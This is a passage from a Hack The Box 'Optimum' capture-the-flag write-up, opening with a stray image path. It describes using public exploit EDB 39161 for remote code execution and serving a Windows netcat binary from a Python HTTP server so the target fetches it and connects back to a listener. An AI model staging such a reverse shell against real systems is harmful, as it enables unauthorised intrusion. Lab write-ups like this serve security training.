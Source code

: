 ![eea2296636a6b8d964096ab92419281b.png](images/ctf/htb/optimum/8b7396f97c9b48be9f0b2e77091f92b1.png)

## Anonymous -> User

This version has a known RCE exploit ([EDB 39161](https://www.exploit-db.com/exploits/39161). To set up the exploit, we need to: 1) host a Windows `nc.exe` binary on a web server that will be downloaded to our target; 2) configure the exloit file to connect back to a listener on our own box; 3) run the exploit, possibly multiple times. In order to set this up, I had to use 3 terminal windows; `tmux` makes this an easy task, and I highly suggest picking it up.

**# Terminal 1 / http server:**

In this terminal, we locate the `nc.exe` file in Kali, create a soft link in our local directory, then start a simple HTTP server using Python.

```bash
# locate nc.exe
/usr/share/windows-resources/binaries/nc.exe
# link -s /usr/share/windows-resources/binaries/nc.exe ./nc.exe
# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
